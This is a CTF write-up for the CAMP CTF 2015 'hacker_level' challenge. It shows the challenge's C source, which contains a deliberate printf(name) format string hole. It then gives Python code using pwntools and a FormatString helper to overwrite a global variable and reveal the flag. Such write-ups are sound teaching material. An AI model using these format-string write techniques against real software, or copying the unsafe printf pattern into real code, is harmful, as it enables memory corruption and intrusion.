 ###########################
CAMP CTF 2015: Hacker Level
###########################

********
Overview
********
hacker_level is a CTF challenge that took as input a string (presumably the
person's name) and echo'd a welcome message back. It then performed a series of
calculations on the name, which proved pointless as the final check would
always fail given those constraints.

The challenge is clearly to utilize the blatant format string vulnerability to
get to the part of the code that prints success.

Example::

  $ ./hacker_level 
  What's your name? %x
  Hello, 40
  Sorry, you're not leet enough to get the flag :(
  Your hacker level is: 0x3db5

***********
Source Code
***********
This is the source code for the challenge:

.. code-block:: c

  #include <stdio.h>
  #include <stdint.h>
  #include <unistd.h>
  
  static uint32_t level = 0;
  static void calc_level(const char *name);

  int main() {
  	char name[64] = "";

	setbuf(stdin, NULL);		// turn off buffered I/O
	setbuf(stdout, NULL);

	printf("What's your name? ");
	fgets(name, sizeof name, stdin);

	calc_level(name);

	usleep(150000);
	printf("Hello, ");
	printf(name);

	usleep(700000);
	if (level == 0xCCC31337) {
		FILE *f = fopen("flag.txt", "r");
		if (f) {
			char flag[80] = "";
			fread(flag, 1, sizeof flag, f);
			printf("The flag is: ");
			printf(flag);
			fclose(f);
		} else {
			printf("I would give you the flag, but I can't find it.\n");
		}
	} else {
		printf("Sorry, you're not leet enough to get the flag :(\n");
		usleep(400000);
		printf("Your hacker level is: 0x%x\n", level);
	}

	return 0;
  }

  static void calc_level(const char *name) {
	for (const char *p = name; *p; p++) {
		level *= 257;
		level ^= *p;
	}
	level %= 0xcafe;
  }


*****************
The Vulnerability
*****************
This program is clearly vulnerable to a format string attack. Further, to get
to the winning path it checks a global variable against the value 0xCCC31337.
Since the ``calc_level`` function mods the result to less than a word length,
this path will never hit without exploitation.


****************
Step 1: exec_fmt 
****************
The first step in using the ``FormatString`` class is to create an exec_fmt
function. This function will take in any arbitrary input, pass that input into
the application properly, parse the results and return the results back. At
this point, we're not worried about exploiting the vulnerability, we're simply
interacting with the program.

.. code-block:: python

  def exec_fmt(s,echo=False):
      #  Open up pwntool process class to interact with application
      p = process("./hacker_level",buffer_fill_size=0xffff)
      # Go ahead and send our input
      p.sendline(s)
      # Throw out data that we know to be before our results
      p.recvuntil("Hello, ",drop=True)
      # We could do better here, but why? Just grab all the rest of the data.
      out = p.recvall()
      # For diagnostic reasons, we can print out the output
      if echo:
          print(out)
      # Since we're running this every time, close out the proc.
      p.close()
      return out


That'll do. That's the majority of your work right there.


*************************
Step 2: Instantiate Class
*************************
Next, we need to instantiate a FormatString class. This can be done strait
forward. To make it simpler, we'll also open an ``ELF`` class on the exe.

.. code-block:: python

  from formatStringExploiter.FormatString import FormatString
  from pwn import *
  
  # Load the binary in pwntools. This way we don't need to worry about the
  # details, just pass it to FormatString
  elf = ELF("./hacker_level")
  
  # Now, instantiate a FormatString class, using the elf and exec_fmt functions
  fmtStr = FormatString(exec_fmt,elf=elf)

You will see some data scroll. This is the FormatString class attempting to
discover your buffer for you. Finally, you'll see something like this::

  Found the offset to our input! Index = 7, Pad = 0

Good to go now. It has found the buffer, we can simply ask the class to perform
actions for us now.

***********************
Step 3: Write the Value
***********************
We now have a functional and initialize ``FormatString`` class. We also know
from the source code that we would like the variable named "level" to be equal
to 0xCCC31337. Let's ask ``FormatString`` to do just that. In this case, we
will set the echo option to True so that we can see the output since the
application exits immediately.

.. code-block:: python

  fmtStr.write_d(elf.symbols['level'],0xCCC31337)

That's it. Your flag is printed. If this were the CTF, you could change
``process`` to ``remote`` and run it again to grab the flag.

*********
Resources
*********
* `hacker_level.tar.gz <https://github.com/ctfs/write-ups-2015/blob/9b3c290275718ff843c409842d738e6ef3e565fd/camp-ctf-2015/pwn/hacker_level-200/hacker_level.tar.gz?raw=true>`_
* `hacker_level.py <https://raw.githubusercontent.com/Owlz/formatStringExploiter/master/docs/examples/hacker_level.py>`_
* `hacker_level github <https://github.com/ctfs/write-ups-2015/blob/9b3c290275718ff843c409842d738e6ef3e565fd/camp-ctf-2015/pwn/hacker_level-200/README.md>`_
